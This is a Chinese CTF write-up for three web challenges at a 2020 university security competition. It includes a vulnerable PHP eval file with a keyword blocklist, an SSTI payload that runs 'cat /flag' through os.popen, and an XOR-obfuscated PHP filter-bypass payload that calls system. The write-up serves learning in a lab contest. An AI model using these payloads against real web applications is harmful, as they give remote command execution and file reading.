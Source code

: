 title:   第十三届全国大学生信息安全竞赛-创新实践能力赛西南赛区选拔赛wp
categories: [CTF]
tags: [web,wp]

date: 2020-9-22 10:24:42

---
 一场言难尽比赛,孤军奋战,尽力就好.....
<!-- more -->
# day1

### web1

扫一下目录，有个www.rar，解压审计一下代码，找到关键文件key.php

```php
<?php
	class XJNU{
		private function flag(){
			echo $flag;
		}
	}


	if(preg_match("/system|exec|eval|shell_exec|passthru|phpinfo/i" , $_GET['f'])){
		die("do not attack me");
	}
	if(preg_match("/system|exec|eval|shell_exec|passthru|phpinfo/i" , $_GET['c'])){
		die("do not attack me");
	}
	if(preg_match("/XJNU|flag/i" , $_GET['f']) || preg_match("/XJNU|flag/i" , $_GET['c'])){
		die("no way!<br>");
	}
	$new = call_user_func_array($_GET['f'],["", $_GET['b']]);
	eval($_GET['c']);
?>
```

回调函数的rce，不过因为参数c过滤不严格，导致可以通过getheader来rce。

先var_dump(scand("/"))找到flag文件，再用readfile读就可以了。

![](wp-1.png)

### Web2

随便输入账户登录进去，fuzz一下，在每日报告的第三个参数存在ssti。过滤了些关键字，用globals来找就行。

payload：

```
status_1=&status_2=&status_3={{url_for.__globals__.os.popen('cat /flag2333_canufindit').read()}}
```

![](wp-2.png)

# day2

### simplecalculator

一个简单的命令执行,Ban一些符号与字符函数，可以通过重载函数的方法来调用。因此我们利用异或拼出GET然后调用system来rec。

![image-20200920162855771](image-20200920162855771.png)

Payload如下：

```
`http://172.1.21.13/flag.php?search=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag.txt
```

`



![image-20200920163003542](image-20200920163003542.png)